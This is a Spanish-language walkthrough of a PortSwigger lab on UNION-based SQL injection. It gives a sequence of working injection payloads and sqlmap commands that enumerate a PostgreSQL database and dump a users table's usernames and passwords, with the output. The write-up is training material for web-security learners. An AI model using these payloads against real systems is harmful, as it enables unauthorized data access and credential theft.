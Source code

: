 ```yaml
---
title: "SQL injection UNION attack, retrieving data from other tables"
description: "Laboratorio de Portswigger sobre SQLI"
date: 2024-11-15 12:39:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - SQLI
tags:
  - SQLI (Error Based)
  - SQL injection UNION attack, retrieving data from other tables
  - PostgreSQL
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` de `inyección SQL` en el `filtro` de `categoría` de `productos`. Los `resultados` de la `consulta` se `devuelven` en la `respuesta` de la `aplicación`, por lo que hay que utilizar un `ataque UNION` para recuperar datos de otras tablas. La base de datos contiene una tabla diferente llamada `users`, con columnas llamadas `username` y `password`. Para resolver el laboratorio, hay que realizar un ataque de `inyección SQL UNION` que recupere todos los nombres de `usuario` y `contraseñas`, y utilizar la información para `iniciar sesión` como el usuario `administrador`

---

## Guía de SQLI

`Antes` de `completar` este `laboratorio` es recomendable `leerse` esta `guía de SQLI` [https://justice-reaper.github.io/posts/SQLI/](https://justice-reaper.github.io/posts/SQLI/)

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/SQLI-Lab-9/image_1.png)

Si hacemos `click` en alguno de los `filtros`, nos filtrará los artículos por esta categoría

![](/assets/img/SQLI-Lab-9/image_2.png)

`Capturamos` la `petición` con `Burpsuite` y `añadimos` una `comilla` simple `'`

![](/assets/img/SQLI-Lab-9/image_3.png)

Si enviamos esta petición nos devolverá un `Internal Server Error`, lo cual quiere decir que estamos `interfiriendo` con la `consulta SQL` que se está produciendo

![](/assets/img/SQLI-Lab-9/image_4.png)

Si usamos este `payload` mediante el cual añadimos una comparación que `siempre` es `verdad` como `1=1`, ignoramos el resto de la consulta SQL con `-- - ` y enviamos la petición nuevamente no obtenemos ningún fallo, lo que quiere decir que la inyección `SQL` ha sido `exitosa`

```
/filter?category=Gifts'+or+1=1--+-+
```

![](/assets/img/SQLI-Lab-9/image_5.png)

Usando `order by` podemos saber el `número` de `columnas` que tiene la `tabla`, empleando este `payload` el resultado es un `200 OK`

```
/filter?category=Gifts'+order+by+2--+-+
```

Sin embargo, si empleamos este otro `payload` donde hacemos `order by 3`, nos devuelve un `Internal Server Error`. Esto se debe a que al no existir `tres columnas` nos `arroja` un `fallo`

```
/filter?category=Gifts'+order+by+3--+-+
```

Una vez sabemos el número de columnas, usando `union select` vamos a obtener la información. En este caso, como no hemos recibido `ningún error`, podemos descartar que la `base` de `datos` usada sea `Oracle`, debido a que en `Oracle` debemos añadir `from dual` al final, de lo contrario, nos arrojará un error

```
/filter?category=Gifts'+union+select+null,null--+-+
```

Confirmamos la `base` de `datos` en uso y también el su `versión`

```
/filter?category=Gifts'+union+select+null,version()--+-+
```

![](/assets/img/SQLI-Lab-9/image_6.png)

`Listamos` el `nombre` de todas las `bases` de `datos`

```
/filter?category=Gifts'+union+select+null,string_agg(datname,',')+from+pg_database--+-+
```

![](/assets/img/SQLI-Lab-9/image_7.png)

`Listamos` la `base` de `datos` actual

```
/filter?category=Gifts'+union+select+null,current_database()--+-+
```

![](/assets/img/SQLI-Lab-9/image_8.png)

`Listamos` todos los `esquemas` para la `base de datos actual`

```
/filter?category='+union+select+null,schema_name+from+information_schema.schemata--+-+
```

![](/assets/img/SQLI-Lab-9/image_9.png)

`Listamos` el `nombre` de las `tablas` del esquema `public`

```
/filter?category='+union+select+null,table_name+from+information_schema.tables+where+table_schema='public'--+-+
```

![](/assets/img/SQLI-Lab-9/image_10.png)

`Listamos` las `columnas` de la tabla `users`

```
/filter?category=Gifts'+union+select+null,string_agg(column_name,',')+from+information_schema.columns+where+table_name='users'--+-+
```

![](/assets/img/SQLI-Lab-9/image_11.png)

`Listamos` el `contenido` de la columna `username` y `password`

```
/filter?category=Gifts'+union+select+username,password+from+users--+-+
```

![](/assets/img/SQLI-Lab-9/image_12.png)

Podríamos obtener también la `contraseña` del usuario `administrator` usando `sqlmap`, lo primero es `listar` las `bases` de `datos`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent --dbs --batch --threads 2   
available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public
```

`Listamos` las `tablas` de la base de datos `public`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public --tables --batch --threads 2 
Database: public
[2 tables]
+----------+
| products |
| users    |
+----------+
```

`Listamos` las `columnas` de la tabla `users`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public -T users --columns --batch --threads 2  
Database: public
Table: users
[3 columns]
+----------+---------+
| Column   | Type    |
+----------+---------+
| email    | varchar |
| password | varchar |
| username | varchar |
+----------+---------+
```

`Dumpeamos` el contenido de `password` y `username` de la tabla `users`

```
# sqlmap -u 'https://0a85007e04197e73811520ab00a30052.web-security-academy.net/filter?category=Gifts*' --risk=3 --level=5 --random-agent -D public -T users -C username,password --dump --batch --threads 2 
Database: public
Table: users
[3 entries]
+---------------+----------------------+
| username      | password             |
+---------------+----------------------+
| administrator | 9ti7sbwit1xxfn9k0bev |
| wiener        | mlcv6e5h7scs5tzvmhmq |
| carlos        | 4k5cdgfdtrvmg2922kev |
+---------------+----------------------+
```

Nos `logueamos` con las `credenciales` del usuario `administrador`

![](/assets/img/SQLI-Lab-9/image_13.png)
